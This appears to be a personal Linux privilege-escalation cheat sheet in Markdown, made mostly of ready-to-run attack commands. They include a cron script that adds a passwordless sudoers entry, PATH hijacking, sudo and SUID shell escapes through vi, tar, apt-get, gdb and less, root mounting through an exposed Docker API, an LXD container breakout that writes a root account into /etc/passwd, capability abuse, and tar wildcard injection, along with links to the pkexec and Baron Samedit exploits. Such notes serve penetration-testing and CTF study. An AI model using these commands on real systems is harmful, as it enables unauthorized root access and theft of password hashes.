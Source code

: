### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()

### PRIVESC WITH PATH VARIABLE MANIPULATION
- If a binary does not detail the path to run another binary e.g not using (/usr/bin/curl) {stating the path}

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f0562606-ec66-47bb-a419-9293ca0a62f1)

- You can manipulate the path and get a root shell.It should be noted the binary you are exploiting must have a suidbit

      cd /tmp
      echo "/bin/sh" > <binary you eant to attack>
      chmod 700 curl
      export PATH=/tmp:$PATH

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cf277f1d-1664-4ea8-a1f0-1461101c5006)
   
### Privesc with pkexec(suidbit) ver 0.105(CVE-2021-4034)
   Use this <a href="https://github.com/arthepsy/CVE-2021-4034">exploit</a>
   <a href="https://www.exploit-db.com/exploits/50689">Exploit db's link</a>

### if a user is allowed to run vi as root with no password

             sudo /usr/bin/vi
             :!/bin/bash

### Privesc with tar if a user can run it as root with no password
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/43c6206f-dda5-4b01-9ca4-af2b28e47ca6)

- Use

       sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

### Privesc with docker api on port 2375

      docker -H <IP>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

### file access

      cat /mnt/etc/shadow

### RCE <getting root with that user>

     chroot /mnt

### PRIVESC WITH APT-GET IF A USER CAN RUN IT WITH SUDO

    sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
### Privesc on sudo version 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1 [Baron Samedit]

  ### Test it with

    sudoedit -s '\' $(python3 -c 'print("A"*1000)')
- Link to exploit <a href="https://github.com/blasty/CVE-2021-3156">Link to exploit</a>

### IF SUID BIT IS SET IN A GDB BINARY

    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

### PRIVESC WITH LXC MISCONFIGURED CONTAINER

- To check if a user is part of the lxd group,use this command

  `cat /etc/passwd | awk -F ':' '{print $1}' | xargs -L1 id | grep -i "lx"`
- Check if lxd is running as user with

    `cat /etc/passwd | grep "lxd"`
- Running processes of ps -aux
  `cat /etc/passwd | grep "lxd"`

- Build a container on your machine with this commands,run it as root though

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine
 
-  Receive it on your target machine with pyhton,test directories like `/dev/shm` or`/tmp`,receive the file on your target machine
 with python http.server.Send the one with a recent date
- Import the image with

       lxc image import alpine-v3.16-x86_64-20221112_0508.tar.gz --alias alpine
- Confirm if it has been imported with

      lxc image list
- Initiate the image

       lxc init alpine juggernaut -c security.privileged=true
       lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
       lxc start juggernaut
       lxc list

- Execute as root

      lxc exec juggernaut sh
  
- If you cannot find storage devices,you have to create one,use brtfs and if the server does not support ipv6,set it to none

      lxd init

- After executing,breakout with `chroot /mnt/root`

- Creating a new user can help us escalate privileges,on your system,do `openssl passwd {choice of password}` and in your target machine do this



      echo '[usernameyou want]:[openssl generated hash]:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd`

### Privesc with capabilities
  Capabilities work by breaking the actions normally reserved for root down into smaller portions. The use of capabilities is only beginning to drop into userland applications as most system utilities do not shed their root privileges. Let’s move ahead that how we can use this permission more into our task.

Limited user’s permission: As we know Giving away too many privileges by default will result in unauthorized changes of data, backdoors and circumventing access controls, just to name a few. So to overcome this situation we can simply use the capability to limited user’s permission.

Using a fine-grained set of privileges: Use of capability can be more clearly understood by another example. Suppose a web server normally runs at port 80 and we also know that we need root permissions to start listening on one of the lower ports (<1024). This web server daemon needs to be able to listen to port 80. Instead of giving this daemon all root permissions, we can set a capability on the related binary, like CAP_NET_BIND_SERVICE. With this specific capability, it can open up port 80 in a much easier way.

  - To enable a binary'scapabilities, use

        setcap cap_setuid+ep /home/demo/python3
  - To find binaries with capabilities,use to check the whole system recursively

        getcap -r / 2</dev/null
  ###IF CAP_SETUID is active
  - Python binary ,use

        ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
        
  - Perl binary
    
        ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
  - Tar binary
    If CAP_DAC_READ_SEARCH is active,we can bypass restrictions and read files and access directories e.g we can read the /etc/shadow file

          ./tar cvf shadow.tar /etc/shadow  
          ls
          ./tar -xvf shadow.tar
        
### TAR WILDCARDS

            cd /opt/backup
            echo -e '#!/bin/bash\n/bin/bash' > shell.sh
            echo "" > "--checkpoint-action=exec=sh shell.sh"
            echo "" > --checkpoint=1

### PRIVESC WITH CPULIMIT binary if suid bit set

       cpulimit -l 100 -f -- /bin/sh -p


### Restricted  bash bypass with SSH

    ssh -i id_rsa tom@target-ip -t "bash —noprofile"
            
### Less (Sudo  -l)

  If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    sudo less /etc/profile
    !/bin/sh

